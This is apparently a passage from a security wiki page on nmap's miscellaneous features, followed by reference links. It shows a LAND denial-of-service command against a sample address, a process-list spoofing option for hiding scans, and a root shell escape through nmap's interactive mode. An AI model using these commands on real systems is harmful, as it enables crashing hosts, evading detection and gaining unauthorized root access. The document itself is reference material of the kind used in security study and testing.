 # Misc Features

With the power of nmap’s firewall/ids evasion flags it is possible to launch several popular attacks:

This LAND Attack will crash vulnerable systems:
nmap -sS 192.168.1.123 -S 192.168.1.123 -p139 -g139 -e eth0
Nmap can be executed in interactive mode:
nmap --interactive
From there a user can perform the following actions:

- `n` — execute an nmap scan with provided arguments
- `f [--spoof] [--nmap-path]`— launches nmap in the background, uses spoofed fakeargs (vi textfile) to hide what you are doing in the process list. You may also execute nmap from a defined nmap-path.
- `x` — exit

# Local Privilege Escalation

If nmap is started in interactive mode with root privileges, arbitrary commands may be executed by when using the following syntax:

nmap> ! id uid=0(root) gid=0(root) groups=0(root)

# External Links

- [Official NMap page](http://insecure.org/nmap/)
- [Phrack 51 — The Art of Port Scanning](http://www.phrack.org/archives/51/P51-11)
- [Service and Application Version Detection](http://insecure.org/nmap/vscan/)
- [Remote OS Detection via TCP/IP Fingerprinting v2](http://insecure.org/nmap/osdetect/)
- [Remote OS Detection via TCP/IP Fingerprinting v1](http://insecure.org/nmap/nmap-fingerprinting-old.html)
- [Send packets with specified ip options](http://seclists.org/nmap-dev/2006/q3/0052.html)
- [Nmap traceroute](http://seclists.org/nmap-dev/2006/q3/0285.html)
- [Nmap Scripting Engine](http://insecure.org/nmap/nse/index.html)